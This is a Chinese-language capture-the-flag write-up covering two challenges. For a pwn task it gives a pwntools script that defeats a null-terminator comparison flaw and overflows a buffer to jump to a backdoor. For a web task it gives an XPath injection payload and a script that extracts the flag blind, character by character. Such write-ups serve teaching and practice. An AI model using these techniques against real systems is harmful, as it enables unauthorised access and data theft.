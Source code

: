 ```cpp
}
```

# PWN
## 捉迷藏

溢出点藏到一大堆分支的唯一结果里，不过过一遍27个getline就能找到溢出的位置。  
之后想让angr自动跑出来，好像效果并不理想，于是考虑手动推算

结果发现比较函数有经典的漏洞，只要让用户输入为截断符就会返回通过，所以直接送一堆0进去，不过最后一个因为XOR了首位，所以需要等于亦或的值。

拿到溢出点之后ret到后门就可以了
```python
from pwn import *

p=remote("39.106.27.2",36329)
p.sendafter(b"sbAmJLMLWm:", b"0 0 0 0 0 0 0 0 ")
p.sendafter(b"HuEqdjYtuWo:", b"\x00"*0x33)
p.sendafter(b"hbsoMdIRWpYRqvfClb:", b"\x00"*0x35)
p.sendafter(b"tfAxpqDQuTCyJw:", b"\x00"*0x22)
p.sendafter(b"UTxqmFvmLy:", b"0 0 0 9254 0 0 0 0 ")
p.sendafter(b"LLQPyLAOGJbnm:", b'\x3c'+b"\00"*0x29)
p.sendafter(b"gRGKqIlcuj:", b'a'*0xf+b'b'*8+p64(0x401331)*4)
p.interactive()
p.close()
```

# WEB
## babyjava(一血)
看大佬的博客：https://xz.aliyun.com/t/7791?page=1

前边的判断方法(root-user-username)博客里都有，而且是常见名爆破第一个字符就能猜到了  
`xpath=user1' and substring(name(/*[1]), 3, 1)='o'  and ''='`  
最后注到第二个flag上脚本，很快就能出来  
```python
import requests

for n in range(80):
    for i in "abcdef0123456789-{}":
        r = requests.post("http://eci-2zef43pmhep3nhrjor7d.cloudeci1.ichunqiu.com:8888/hello",
                          data={
                              "xpath": f"""user1' and substring((//user[position()=1]/username[position()=2]),{n},1) = '{i}'  and ''='"""
                          })
        if "information " not in r.text:
            print(i, end="")
            break
```
